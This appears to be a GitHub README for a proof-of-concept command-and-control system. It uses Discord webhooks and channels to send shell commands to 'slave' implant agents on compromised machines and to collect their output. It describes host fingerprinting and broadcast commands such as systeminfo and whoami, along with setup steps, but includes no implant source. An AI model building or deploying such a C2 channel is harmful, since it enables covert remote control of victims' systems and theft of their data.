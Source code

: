 # Discord-Based Command & Control (C2) Prototype

**⚠️ WARNING: FOR EDUCATIONAL PURPOSES ONLY**  
Please i don't want to go to jail

## Overview

A proof-of-concept demonstrating how Discord's API could theoretically be abused for command and control operations. The system consists of:

- **Master Controller**: CLI tool for issuing commands
- **Slave Nodes**: Implant agents that execute commands
- **Communication Protocol**: Discord channels + webhooks

## System Architecture
discord-c2-prototype/
├── master.py # Command center (CLI interface)
├── slave.py # Implant agent
├── requirements.txt # Python dependencies
└── README.md

Copy

## Protocol Design

### Communication Flow
1. **Master → Slave**: Commands sent via Discord webhook
   - Format: `[TARGET_ID] [COMMAND]`
   - Example: `a1b2c3d4 whoami /all`

2. **Slave → Master**: Responses posted in Discord channel
   - Format: 
     ```
     [SYSTEM_ID]
     [COMMAND_OUTPUT]
     ```

### Unique Identification
Each slave generates a unique ID by hashing system characteristics:
```python
SHA256(
    hostname + 
    OS_version + 
    CPU_info + 
    MAC_address + 
    primary_disk
)[:8]
```
Key Components
Slave Features
System fingerprinting

Command execution (30s timeout)

Output sanitization (1900 char limit)

Target filtering (* for broadcast)

Master Features
Targeted command dispatch

Response monitoring

Webhook integration

CLI interface

Prerequisites
Software Requirements
Python 3.8+

Discord developer account

Bot token with message permissions

Setup Commands
``` bash
Copy
# Install dependencies
pip install -r requirements.txt
```
# Configure environment
```
export DISCORD_TOKEN="your_bot_token"
export WEBHOOK_URL="your_webhook_url"
```
Usage Examples
Broadcast command to all slaves:
```
bash
Copy
python master.py send --target * --command "systeminfo"
```
Target specific slave:
```
bash
Copy
python master.py send --target a1b2c3d4 --command "ipconfig"
```
Monitor responses:
```
bash
Copy
python master.py monitor
```
